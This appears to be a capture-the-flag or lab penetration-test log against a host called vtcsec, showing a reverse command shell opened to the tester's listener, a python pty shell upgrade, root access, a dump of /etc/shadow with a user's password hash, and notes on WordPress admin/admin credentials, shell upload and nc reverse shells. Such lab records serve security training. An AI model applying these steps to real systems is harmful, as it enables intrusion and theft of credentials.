[*] Reading from socket B
[*] B: "M9l8NwcYRFSoXIHu\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.111:56710) at 2019-11-06 21:53:22 -0500
python -c 'import pty; pty.spawn("/bin/bash")'
root@vtcsec:/#
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
root@vtcsec:/root#
FIN
Other users: marlinspike
root@vtcsec:/etc# cat shadow
cat shadow
root:!:17484:0:99999:7:::
daemon:*:17379:0:99999:7:::
bin:*:17379:0:99999:7:::
sys:*:17379:0:99999:7:::
sync:*:17379:0:99999:7:::
games:*:17379:0:99999:7:::
man:*:17379:0:99999:7:::
lp:*:17379:0:99999:7:::
mail:*:17379:0:99999:7:::
news:*:17379:0:99999:7:::
uucp:*:17379:0:99999:7:::
proxy:*:17379:0:99999:7:::
www-data:*:17379:0:99999:7:::
backup:*:17379:0:99999:7:::
list:*:17379:0:99999:7:::
irc:*:17379:0:99999:7:::
gnats:*:17379:0:99999:7:::
nobody:*:17379:0:99999:7:::
systemd-timesync:*:17379:0:99999:7:::
systemd-network:*:17379:0:99999:7:::
systemd-resolve:*:17379:0:99999:7:::
systemd-bus-proxy:*:17379:0:99999:7:::
syslog:*:17379:0:99999:7:::
_apt:*:17379:0:99999:7:::
messagebus:*:17379:0:99999:7:::
uuidd:*:17379:0:99999:7:::
lightdm:*:17379:0:99999:7:::
whoopsie:*:17379:0:99999:7:::
avahi-autoipd:*:17379:0:99999:7:::
avahi:*:17379:0:99999:7:::
dnsmasq:*:17379:0:99999:7:::
colord:*:17379:0:99999:7:::
speech-dispatcher:!:17379:0:99999:7:::
hplip:*:17379:0:99999:7:::
kernoops:*:17379:0:99999:7:::
pulse:*:17379:0:99999:7:::
rtkit:*:17379:0:99999:7:::
saned:*:17379:0:99999:7:::
usbmux:*:17379:0:99999:7:::
marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::
mysql:!:17486:0:99999:7:::
sshd:*:17486:0:99999:7:::
Alternates:
→ in wordpress: the credentials are admin/admin
→ you can upload an shell in the wordpress admin console
→ you can use nc to create a reverse shell
→ ...